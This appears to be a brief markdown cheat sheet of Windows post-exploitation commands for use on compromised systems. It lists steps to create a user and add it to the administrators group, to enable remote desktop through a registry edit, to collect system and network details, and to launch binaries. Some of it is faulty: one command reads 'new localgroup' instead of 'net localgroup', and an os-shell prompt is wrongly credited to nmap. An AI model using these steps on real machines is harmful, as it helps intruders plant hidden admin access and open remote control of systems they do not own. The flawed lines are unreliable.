 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `new localgroup administrators [username] /add`
## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.
1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)
## Command Execution
To run a binary on the FS of the compromised system from os-shell> in nmap:
`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
